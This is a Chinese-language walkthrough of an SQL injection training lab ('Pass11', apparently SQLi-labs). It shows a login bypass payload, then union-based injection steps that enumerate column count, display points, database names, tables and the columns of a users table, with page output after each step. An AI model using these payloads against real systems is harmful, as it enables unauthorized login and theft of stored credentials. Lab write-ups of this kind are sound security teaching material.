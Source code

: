 数据库名为securty

# Pass11

发现是一个登录页
`1'`单引号闭合
使用万能密码。
username输入`admin' or 1-- +`成功登录. 

联合查询

<a name="tFdi3"></a>

## 查询字段数

`1' order by 3-- +`

> 登录后页面报错Unknown column '3' in 'order clause'

`1' order by 2-- +`
没有提示错误，说明有2个字段；



## 判断回显点

`1' union select 1,2 #`
显示1，2。判断出页面有两个显示位；



## 爆数据库名

`1' union select 1,group_concat(schema_name) from information_schema.schemata #`

> Your Login name:1
> Your Password:information\_schema,challenges,dvwa\_com,mysql,performance\_schema,security,sql,sys



## 爆数据表名

`1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #`

> Your Login name:1
> Your Password:emails,referers,uagents,users



## 爆字段名

`1' union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users' #`

> Your Login name:1
> Your Password:id,username,password
